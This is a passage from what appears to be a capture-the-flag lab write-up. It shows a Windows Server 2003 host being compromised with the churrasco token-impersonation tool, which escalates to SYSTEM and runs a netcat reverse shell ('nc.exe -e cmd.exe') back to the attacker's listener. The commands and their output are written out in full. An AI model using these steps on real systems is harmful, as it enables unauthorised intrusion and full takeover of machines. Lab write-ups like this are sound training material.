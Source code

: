     
    
    C:\wmpub>copy \\10.10.14.47\share\nc.exe .
            1 file(s) copied.
    
    C:\wmpub>copy \\10.10.14.47\share\churrasco.exe c.exe
            1 file(s) copied.
    
    C:\wmpub>dir
     Volume in drive C has no label.
     Volume Serial Number is 246C-D7FE
    
     Directory of C:\wmpub
    
    05/28/2020  02:50 PM    <DIR>          .
    05/28/2020  02:50 PM    <DIR>          ..
    05/28/2020  02:38 PM            31,232 c.exe
    05/28/2020  04:35 AM            38,616 nc.exe
    05/28/2020  02:46 PM                 7 test.txt
    04/12/2017  05:05 PM    <DIR>          wmiislog
                   3 File(s)         69,855 bytes
                   3 Dir(s)  18,092,220,416 bytes free
    

Now run it, having it run `nc` to connect back to me:

    
    
    C:\wmpub>.\c.exe -d "C:\wmpub\nc.exe -e cmd.exe 10.10.14.47 443"
    /churrasco/-->Current User: NETWORK SERVICE 
    /churrasco/-->Getting Rpcss PID ...
    /churrasco/-->Found Rpcss PID: 684 
    /churrasco/-->Searching for Rpcss threads ...
    /churrasco/-->Found Thread: 688 
    /churrasco/-->Thread not impersonating, looking for another thread...
    /churrasco/-->Found Thread: 692 
    /churrasco/-->Thread not impersonating, looking for another thread...
    /churrasco/-->Found Thread: 700 
    /churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x72c
    /churrasco/-->Getting SYSTEM token from Rpcss Service...
    /churrasco/-->Found NETWORK SERVICE Token
    /churrasco/-->Found NETWORK SERVICE Token
    /churrasco/-->Found LOCAL SERVICE Token
    /churrasco/-->Found SYSTEM token 0x724
    /churrasco/-->Running command with SYSTEM Token...
    /churrasco/-->Done, command should have ran as SYSTEM!
    

And on my listener:

    
    
    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.14.
    Ncat: Connection from 10.10.10.14:1038.
    Microsoft Windows [Version 5.2.3790]
    (C) Copyright 1985-2003 Microsoft Corp.
    